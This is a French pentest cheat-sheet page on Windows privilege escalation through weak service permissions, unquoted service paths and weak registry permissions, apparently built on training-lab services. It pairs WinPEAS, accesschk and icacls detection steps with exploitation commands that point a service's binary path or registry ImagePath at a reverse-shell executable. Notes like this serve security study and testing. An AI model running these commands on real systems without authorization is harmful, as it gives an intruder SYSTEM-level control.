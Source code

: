 ```yaml
---
public: true
---
```


**Détails de Recherche de vecteur d'escalade via des services : [[Weak Permissions]]**

## Trouver un service vulnérable (automatique)

`WinPeas` identifie tous les services vulnérables.

Il faut regarder les sections suivantes :

```shell
# Information sur les services
===============(Services Information)=============

# Information sur les Applications (à recouper avec les chemin d'accès des services)
===========(Applications Information)================
```

## Permissions de modifier un service

Si on peut modifier un service, on pourra remplacer le processus lancé par un reverse shell.

### Detection

#### Manuelle

```shell
accesschk -accepteula -quwc daclsvc
daclsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
  RW Everyone                          <====================
```

#### Automatique

Dans les résultats de la commande `.\winPEASany.exe quiet servicesinfo applicationsinfo` :

```shell
===============(Services Information)=============
 daclsvc(DACL Service)["C:\Program Files\DACL Service\daclservice.exe"] - Manual - Stopped
    YOU CAN MODIFY THIS SERVICE: WriteData/CreateFiles       <=====
```

### Exploitation

```shell
# Changement du path du service
net stop daclsvc
sc config daclsvc binpath= "\"C:\Windows\Temp\reverse.exe\""
net start daclsvc
```

## Unquoted service path
### Détection
#### Manuelle
Enuméré les services, et selectioner ceux qui ne commencent pas par des guillemets.
Exemple avec le path : `C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`

```shell
# vérification avec icacls des différent chemins exploitables
"C:\Program Files\Unquoted Path Service\Common.exe"
"C:\Program Files\Unquoted.exe"
"C:\Program.exe"

# tenter de créer un fichier :
echo "test" > "C:\Program Files\Unquoted Path Service\Common.exe"
del "C:\Program Files\Unquoted Path Service\Common.exe"
# si pas d'erreur alors c'est exploitable

```
Remarque : On doit pouvoir le faire avec `icacls` ou `accesschk.exe` mais je n'ai pas pris le temps de creuser pour obtenir une méthode fiable.

#### Automatique

```shell
===============(Services Information)=============
[...]
unquotedsvc(Unquoted Path Service)[C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe] - Manual - Stopped - 
No quotes and Space detected
   =================================================================================================                                <=====
[...]

=========(Applications Information)=======
[...]
C:\Program Files\Unquoted Path Service(Users [AllAccess])       <====
[...]
```

### Exploitation

```shell
copy reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
net stop unquotedsvc
net start unquotedsvc
```

## Weak registry permissions

### Detection

#### Manuelle
```shell
accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

#### Automatique
```shell
==============(Services Information)===============
[...]
 LOOKS LIKE YOU CAN MODIFY SOME SERVICE/s:
 daclsvc: WriteData/CreateFiles
```

### Exploitation

```shell
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
net start regsvc
```

## Trouver un service vulnérable (manuel)

### Lister les services

Lorsqu'on liste les service, on recherche en priorité des **chemins d'accès atypiques** qui potentiellement  seront moins bien conçus que les services natif au système d'exploitation :

Hors du dossier `c:\windows`

```powershell
get-wmiobject win32_service | select name,state, startmode,pathname,StartName | ?{$_.StartName -eq "LocalSystem" -and $_.pathname -notlike "c:\Windows\*" }| Sort PathName |ft
```

```shell
wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """
```

Tous les services

```powershell
get-wmiobject win32_service | select name,state, startmode,pathname,StartName | ?{$_.StartName -eq "LocalSystem" -and $_.pathname -notlike "C:\Windows\system32\svchost.exe *" }| Sort PathName |ft
```

### Regardes les permissions

#### Droits de modification d'éléments dans le path

Prenons l'exemple du service suivant :

```
C:\Program Files\Super Vendor\Great Product\superservice.exe
```

On cherchera si on peut créer les exécutables suivants :

- `C:\Program Files\Super Vendor\Great.exe`
- `C:\Program Files\Super.exe`
- `C:\Program.exe`

On vérifie donc les permission sur les dossiers parents de ces fichier potentiels :

```shell
# REMARQUE : pour les dossiers, il ne faut pas ajouter de "\" à la fin !
icacls "C:\Program Files\Super Vendor"
icacls "C:\Program Files"
icacls "C:\"
```

Exemple de permissions :

```shell
# peut créer des Dossiers MAIS PAS des fichiers
CREATOR OWNER:(OI)(CI)(IO)(F) 
# peut créer des dossiers ET des fichiers !! (exploitable)

CREATOR OWNER:(I)(OI)(CI)(IO)(F)

```

#### Unquoted service path

Pour ce type de mauvaise configuration, on cherchera des services dont le chemin d'accès :

- n'est pas entouré de "doubles quotes" (guillemets)
- contient des dossier contenant des espaces dans leur nom

### Services en dehors de c:\windows\system32

```powershell
# démarrés ou non
get-wmiobject win32_service | select name,state, startmode,pathname,StartName | ?{$_.StartName -eq "LocalSystem" -and $_.pathname -notlike "c:\Windows\System32\*" }|ft


# Rechercher des chemins d'accès atypiques 
get-wmiobject win32_service | select name,state, startmode,pathname,StartName |?{$_.State -like 'Running'}|Sort StartName | ft

  
# Liste des services sans ceux dans c:\windows :
get-wmiobject win32_service | select name,state,pathname |?{$_.State -like 'Running'} |? {$_.Pathname -notmatch 'c:\\Windows\\.*' }

# Vérifier les permissions
> icacls 'C:\Program Files\Ext2Fsd\Ext2Srv.exe'
C:\Program Files\Ext2Fsd\Ext2Srv.exe AUTORITE NT\Système:(I)(F)
                                     BUILTIN\Administrateurs:(I)(F)
                                     BUILTIN\Utilisateurs:(I)(RX)
                                     AUTORITÉ DE PACKAGE D’APPLICATION\TOUS LES PACKAGES D’APPLICATION:(I)(RX)
                                     AUTORITÉ DE PACKAGE D’APPLICATION\TOUS LES PACKAGES D’APPLICATION RESTREINTS:(I)(RX)

```

[Documentation icacls](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)

- A sequence of simple rights (basic permissions):
	- F - Full access
	- M - Modify access
	- RX - Read and execute access
	- R - Read-only access
	- W - Write-only access
- Inheritance rights may precede either `<perm>` form:
	- **(I)** - Inherit. ACE inherited from the parent container.
	- (OI)** - Object inherit. Objects in this container will inherit this ACE. Applies only to directories.
	- **(CI)** - Container inherit. Containers in this parent container will inherit this ACE. Applies only to directories.
	- **(IO)** - Inherit only. ACE inherited from the parent container, but does not apply to the object itself. Applies only to directories.
	- **(NP)** - Do not propagate inherit. ACE inherited by containers and objects from the parent container, but does not propagate to nested containers. Applies only to directories.
